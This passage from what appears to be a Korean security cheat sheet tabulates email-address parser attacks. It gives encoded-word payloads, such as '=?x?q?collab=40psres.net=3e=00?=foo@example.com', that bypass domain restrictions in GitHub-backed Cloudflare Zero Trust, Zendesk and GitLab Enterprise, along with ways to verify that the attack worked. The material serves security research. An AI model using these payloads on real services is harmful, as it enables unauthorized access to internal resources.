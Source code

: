 ### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SMTP Interaction Log Verification</td>
      <td><code>RCPT TO:<attacker@psres.net></code></td>
      <td>Burp Collaborator의 SMTP 인터렉션 로그를 확인하여 공격자가 의도한 대로 메일이 발송됐는지 검증한다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Application State Verification</td>
      <td>(예: 내부주소 Verified 표시)</td>
      <td>공격이 성공했다면 애플리케이션은 사용자가 소유하지 않은 이메일을 검증 완료로 표시하거나 내부 사용자로 간주한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation(1)

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Cloudflare Zero Trust Bypass</td>
      <td><code>=?x?q?collab=40psres.net=3e=00?=foo@example.com</code></td>
      <td>공격자는 Github의 이메일 확인 과정에서 임의의 도메인 주소를 검증 시킨다. 이후 Github를 IdP로 사용하는 Cloudflare Zero Trust 설정을 악용하여 원격지 내부망 등의 보호 자원에 접근이 가능하다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>Zendesk Domain Restriction Bypass</td>
      <td><code>“=?x?q?collab=22=40psres.net=3e=00==3c22x?=\"@example.com</code></td>
      <td>공격자는 Zendesk의 특정 지원 포털에 미허용 외부 도메인 계정을 생성하고 최종 접근이 가능하다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>GitLab Enterprise Signup Bypass</td>
      <td><code>=?x?q?collab=40psres.net=3e=20?=foo@example.com</code></td>
      <td>실제로는 x 대신 iso-8859-1 사용한다. 공격자는 특정 도메인만 가입 가능한 GitLab Enterprise 서버에 임의 가입하여 내부 프로젝트나 리소스에 접근 가능하다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>
